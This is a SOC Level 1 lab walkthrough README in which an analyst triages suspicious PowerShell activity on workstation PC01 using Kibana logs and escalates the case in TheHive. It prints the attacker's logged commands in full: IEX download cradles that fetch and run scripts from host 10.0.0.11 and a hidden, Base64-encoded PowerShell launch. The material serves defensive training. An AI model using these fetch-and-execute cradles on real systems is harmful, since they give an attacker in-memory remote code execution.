<div align="center">



# ⚡ SOC-1: Analyzing Unusual PowerShell Execution — Complete Incident Triage & Escalation Walkthrough
### Elastic (ELK) Stack • PowerShell Script Block Logging (EID 4104) • Sysmon Process & Network Telemetry (EID 1 & 3) • TheHive Case Management

[](https://my.ine.com/course/soc-ticketing-reporting/7f70e83f-52fe-4234-a19d-e4acb30c5c43/lab/1a9c8af2-0a07-4900-85d7-ddc8b3075e22)
[](https://www.elastic.co/)
[](https://docs.strangebee.com/thehive/overview/)
[](https://attack.mitre.org/)
[](.)

**A production-grade SOC Level 1 investigation guide — hunting multi-stage obfuscated PowerShell download cradles across Event ID 4104 and Sysmon logs in ELK, cataloging 8 forensic observables, mapping 3 MITRE ATT&CK TTPs, assigning 2 mandatory Tier-2 tasks, and formally escalating to SOC Level 2 in TheHive.**

</div>

---

## 📑 Table of Contents
1. [Lab Overview & Scenario](#-lab-overview--scenario)
2. [Executive Summary & Quick Triage Matrix](#-executive-summary--quick-triage-matrix)
3. [Multi-Stage PowerShell Attack Kill Chain & Architecture](#-multi-stage-powershell-attack-kill-chain--architecture)
4. [Forensic Telemetry Correlation: Event ID 4104 & Sysmon EID 1/3](#-forensic-telemetry-correlation-event-id-4104--sysmon-eid-13)
5. [Live Incident Triage & Escalation Demo (Animated GIF)](#-live-incident-triage--escalation-demo)
6. [Lab Environment & Analyst Credentials](#-lab-environment--analyst-credentials)
7. [Complete Step-by-Step Investigation Walkthrough](#-complete-step-by-step-investigation-walkthrough)
   * [Step 1: Accessing the ELK Stack Web Interface](#step-1-accessing-the-elk-stack-web-interface)
   * [Step 2: Navigating to Kibana Discover & Selecting the syntrix* Index](#step-2-navigating-to-kibana-discover--selecting-the-syntrix-index)
   * [Step 3: Hunting PowerShell Script Block Logging (Event ID 4104)](#step-3-hunting-powershell-script-block-logging-event-id-4104)
   * [Step 4: Correlating Sysmon Process Creation Events (Event ID 1)](#step-4-correlating-sysmon-process-creation-events-event-id-1)
   * [Step 5: Tracing Sysmon Network Connections (Event ID 3)](#step-5-tracing-sysmon-network-connections-event-id-3)
   * [Step 6: Logging into TheHive Case Management Platform](#step-6-logging-into-thehive-case-management-platform)
   * [Step 7: Creating the Incident Case in TheHive](#step-7-creating-the-incident-case-in-thehive)
   * [Step 8: Registering All 8 Forensic Observables & IOCs](#step-8-registering-all-8-forensic-observables--iocs)
   * [Step 9: Mapping MITRE ATT&CK TTPs to the Case](#step-9-mapping-mitre-attck-ttps-to-the-case)
   * [Step 10: Creating Mandatory SOC-2 Tasks & Escalating Ownership](#step-10-creating-mandatory-soc-2-tasks--escalating-ownership)
8. [Complete 32-Screenshot Visual Verification Archive](#-complete-32-screenshot-visual-verification-archive)
9. [Detection Engineering (Sigma Rules) & SOC Containment Playbook](#-detection-engineering--soc-containment-playbook)
10. [Python Forensic Automation Script](#-python-forensic-automation-script)
11. [Conclusion & References](#-conclusion--references)

---

## 🎯 Lab Overview & Scenario

### Overview
As a **SOC Level 1 analyst at Syntrix**, you are performing routine monitoring in the **ELK stack** when you notice a series of Windows event logs indicating potentially suspicious PowerShell execution on a workstation. Your task is to conduct initial triage by reviewing the relevant Windows event logs in ELK to determine whether the activity appears malicious. Once your assessment is complete, you will document your findings and escalate the case to **SOC Level 2** through **TheHive** for deeper analysis.

### Lab Environment & Objective
In this lab environment, you have GUI access to two Ubuntu machines—one hosting **ELK** and the other hosting **TheHive**:
* **ELK (Kibana):** `http://localhost:5601` (Logs visible under the `syntrix*` index pattern)
* **TheHive Platform:** `http://localhost:9000`
  * **Username:** `soc1@syntrix.com`
  * **Password:** `pass123`

**Objective:** Perform an initial triage of suspicious PowerShell activity found in Windows event logs to determine potential malicious behavior, and document your findings in TheHive for further investigation. *(Analyze the events generated in **November 2025**).*

### Tools Used
* **ELK Stack (Elasticsearch & Kibana Discover)**
* **TheHive v5.5 Incident Response Platform**
* **Windows PowerShell Operational Logs (`Event ID 4104`)**
* **Microsoft Sysmon Operational Logs (`Event ID 1` & `Event ID 3`)**

---

## 📌 Executive Summary & Quick Triage Matrix

| Parameter / Field | Verified Investigation Value | Forensic / Operational Significance |
| :--- | :--- | :--- |
| **Incident Case Title** | `Suspicious PowerShell Activity Triggering Remote Script Execution` | Captures both the execution vector (`PowerShell`) and the core threat behavior (remote in-memory staging). |
| **Incident Timestamp** | `17 November 2025 @ 11:21:33` (`UTC`) | Exact execution window isolated across PowerShell Operational and Sysmon logs. |
| **Victim Workstation** | `PC01` (`PC01.research.security.local` / `10.0.0.50`) | Windows endpoint where the encoded PowerShell stager was executed. |
| **Compromised / Involved User** | `sarah` (`PC01\sarah`, SID: `...-1009`) | User account context under which `explorer.exe` spawned `powershell.exe`. |
| **Suspected Attacker Host** | `10.0.0.11` | Internal host serving malicious `.ps1` stages (ports `80`, `8080`) and receiving C2 traffic (`4444`). |
| **Initial Launch Command** | `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -EncodedCommand SQBFAFgA...` | Base64-encoded command spawned by `C:\Windows\explorer.exe` (PID `5492`). |
| **Decoded Stage-1 Cradle** | `IEX(New-Object Net.WebClient).DownloadString('http://10.0.0.11/haha.ps1')` | Fileless Living-off-the-Land (LotL) download cradle fetching `haha.ps1` into memory. |
| **Stage-2 Payload URLs** | `http://10.0.0.11:8080/rJ8V0D4hquf54Q/2ZoeCggfq` & `http://10.0.0.11:8080/rJ8V0D4hquf54Q` | Secondary scripts retrieved inside `haha.ps1` using TLS/Proxy-aware WebClient. |
| **Network Ports Observed** | `80`, `8080`, `4444` (Outbound TCP to `10.0.0.11`) | Port `80` (initial stager), Port `8080` (secondary payload), Port `4444` (C2 / reverse shell). |
| **Case Severity / Markings** | **Severity:** `HIGH` \| **TLP:** `TLP:AMBER` \| **PAP:** `PAP:AMBER` | High risk of active compromise; restricted internal sharing and passive-only probing. |
| **Registered Observables** | **8 Total:** `10.0.0.11`, `PC01`, `sarah`, `http://10.0.0.11/haha.ps1`, `http://10.0.0.11:8080/rJ8V0D4hquf54Q/2ZoeCggfq`, `haha.ps1`, `IEX(...)`, `80, 8080, 4444` | Complete forensic artifact catalog with sighting timestamps and IOC flags. |
| **Mapped MITRE TTPs** | **3 Total:** `T1059.001` (PowerShell), `T1027` (Obfuscated Files/Info), `T1570` (Lateral Tool Transfer) | Maps Execution, Defense Evasion, and Lateral Movement tactics. |
| **Mandatory SOC-2 Tasks** | **2 Tasks:** `Context on Suspected Attacker-controlled Host and User Account` & `Context on Retrieved Scripts` | Directs Tier 2 analysts to investigate `10.0.0.11`/`sarah` and deobfuscate the retrieved scripts. |
| **Final Escalation Owner** | `SOC 2` (`soc2@syntrix.com`) | Formally reassigned from Tier 1 (`soc1@syntrix.com`) to Tier 2 (`soc2@syntrix.com`). |

---

## 🏗️ Multi-Stage PowerShell Attack Kill Chain & Architecture

The visual architecture below illustrates the complete multi-stage attack progression on workstation **`PC01` (`10.0.0.50`)**, how telemetry is captured across Windows PowerShell Operational and Sysmon channels into the **ELK Stack**, and how the incident is packaged and escalated to **SOC Level 2** in **TheHive**:





---

## 🔬 Forensic Telemetry Correlation: Event ID 4104 & Sysmon EID 1/3

A critical skill for SOC analysts is correlating **PowerShell Operational logs** with **Sysmon kernel telemetry** to reconstruct both *how* a process was launched and *what* it executed in memory after deobfuscation:



| Telemetry Source | Channel Name | Event ID | What It Captures in This Incident |
| :--- | :--- | :---: | :--- |
| **PowerShell Script Block Logging** | `Microsoft-Windows-PowerShell/Operational` | **`4104`** | Captures the **full, deobfuscated content** of code blocks as they are compiled and executed by the PowerShell engine in memory—exposing `haha.ps1`, the decoded `-e` payload, the secondary URL on port `8080`, and the final AMSI bypass script. |
| **Sysmon Process Creation** | `Microsoft-Windows-Sysmon/Operational` | **`1`** | Captures the **initial process execution command line** (`powershell.exe -EncodedCommand SQBFAFgA...`), Process ID (`5492`), User (`PC01\sarah`), Working Directory (`C:\Users\sarah\`), and Parent Process (`C:\Windows\explorer.exe`). |
| **Sysmon Network Connection** | `Microsoft-Windows-Sysmon/Operational` | **`3`** | Maps outbound TCP sockets directly to the initiating binary (`powershell.exe`, PID `5492`), proving that `PC01` (`10.0.0.50`) connected to `10.0.0.11` across ports **`80`**, **`8080`**, and **`4444`**. |

---

## 🎬 Live Incident Triage & Escalation Demo

The animated walkthrough below steps through the entire investigation across **Kibana Discover** and **TheHive**:



---

## 🖥️ Lab Environment & Analyst Credentials

| System / Component | Access URL / Identifier | Credentials / Details | Role in Investigation |
| :--- | :--- | :--- | :--- |
| **ELK Stack (Kibana UI)** | `http://localhost:5601` | Open Access (No Auth Required) | Log analytics platform hosting the `syntrix*` index pattern. |
| **TheHive v5.5 Platform** | `http://localhost:9000` | **Username:** `soc1@syntrix.com`<br>**Password:** `pass123` | SOC Case Management system used to document and escalate findings. |
| **SOC Level 2 Escalation Target** | `SOC 2` (`soc2@syntrix.com`) | Internal Escalation Queue | Tier-2 analyst queue receiving the escalated case and mandatory tasks. |
| **Victim Endpoint (`PC01`)** | `10.0.0.50` (`PC01.research.security.local`) | User: `PC01\sarah` | Affected Windows workstation generating PowerShell and Sysmon logs. |
| **Suspected Attacker Host** | `10.0.0.11` | Ports: `80`, `8080`, `4444` | Internal machine hosting malicious PowerShell stagers and listener. |

---

## 🚀 Complete Step-by-Step Investigation Walkthrough

### Step 1: Accessing the ELK Stack Web Interface

On the **ELK** tab, open Firefox and navigate to:
```text
http://localhost:5601
```
You will land on the Elastic home screen displaying **Enterprise Search**, **Observability**, **Security**, and **Analytics**.



---

### Step 2: Navigating to Kibana Discover & Selecting the `syntrix*` Index

1. Click the top-left navigation menu (`☰`) and select **Analytics** $\rightarrow$ **Discover**.



2. Click the index pattern dropdown (currently set to `winlogbeat-*`) and change the index pattern to **`syntrix*`**.



3. Set the time frame to **"Last 1 year"** (or any range covering **November 2025**), as the events to be analyzed were generated on **November 17, 2025**. You will see **1,512 hits** loaded in the timeline.



---

### Step 3: Hunting PowerShell Script Block Logging (Event ID 4104)

Any PowerShell-related activity is recorded in the **PowerShell Operational** logs. Enter the following KQL query in the Discover search bar:

```text
winlog.channel:"Microsoft-Windows-PowerShell/Operational" AND winlog.event_id:4104
```

> [!IMPORTANT]
> **Why Event ID 4104?**  
> **Event ID 4104 (Script Block Logging)** captures the de-obfuscated content of PowerShell script blocks—including commands, functions, and entire scripts—regardless of how they are executed (direct command-line entry, `.ps1` files, modules, or in-memory execution).

This query returns **6 hits** from **November 17, 2025**.



---

#### 🔍 Event 1 Analysis — Timestamp: `Nov 17, 2025 @ 11:21:33.749`

Arrange the events in ascending chronological order and expand the event log at **`Nov 17, 2025 @ 11:21:33.749`**:

| Log Field | Extracted Value |
| :--- | :--- |
| `winlog.channel` | `Microsoft-Windows-PowerShell/Operational` |
| `winlog.computer_name` | **`PC01`** |
| `winlog.event_data.ScriptBlockId` | `c10d39f2-1a16-4efd-a84b-5402abf4f3a1` |
| `winlog.event_data.ScriptBlockText` | **`IEX(New-Object Net.WebClient).DownloadString('http://10.0.0.11/haha.ps1')`** |
| `winlog.event_id` | `4104` |
| `winlog.process.pid` | `5,492` |
| `winlog.task` | `Execute a Remote Command` |
| `winlog.user.domain` | `PC01` |
| `winlog.user.identifier` | `S-1-5-21-3688751335-3073641799-161370460-1009` |
| `winlog.user.name` | **`sarah`** |



**Technical Breakdown of the Command:**
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.0.0.11/haha.ps1')
```
* **`New-Object Net.WebClient`** $\rightarrow$ Instantiates a .NET web client object to fetch content over HTTP/HTTPS.
* **`DownloadString('http://10.0.0.11/haha.ps1')`** $\rightarrow$ Downloads a PowerShell script named `haha.ps1` from remote host `10.0.0.11` directly into a memory string.
* **`IEX` (`Invoke-Expression`)** $\rightarrow$ Executes the downloaded script immediately in memory **without writing it to disk**.

This is a classic **Living off the Land (LotL)** fileless stager pattern.

---

#### 🔍 Event 2 Analysis — Timestamp: `Nov 17, 2025 @ 11:21:33.991`

Inspect the next event log at **`Nov 17, 2025 @ 11:21:33.991`**. This captures the content of **`haha.ps1`** as it executes in memory:

```powershell
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsA...
```



**Key Red Flags Identified:**
* **`-nop` (`-NoProfile`)** $\rightarrow$ Avoids loading the user's PowerShell profile scripts to bypass environment customizations or logging hooks.
* **`-w hidden` (`-WindowStyle Hidden`)** $\rightarrow$ Conceals the PowerShell console window from the interactive user (`sarah`).
* **`-e` (`-EncodedCommand`)** $\rightarrow$ Passes a UTF-16LE Base64-encoded command string to evade basic command-line string matching and hide nested quotes.
* **User Context (`sarah`)** $\rightarrow$ Executed under a standard domain/local user account that may be compromised.

---

#### 🔍 Event 3 Analysis — Timestamp: `Nov 17, 2025 @ 11:21:34.158`

Inspect the next event log at **`Nov 17, 2025 @ 11:21:34.158`**, which reveals the **Base64-decoded content** of the `-e` command inside `haha.ps1`:

```powershell
[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$wc=new-object net.webclient;if([System.Net.WebProxy]::GetDefaultProxy().address -ne $null){$wc.proxy=[Net.WebRequest]::GetSystemWebProxy();$wc.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;};IEX ((new-object Net.WebClient).DownloadString('http://10.0.0.11:8080/rJ8V0D4hquf54Q/2ZoeCggfq'));IEX ((new-object Net.WebClient).DownloadString('http://10.0.0.11:8080/rJ8V0D4hquf54Q'))
```

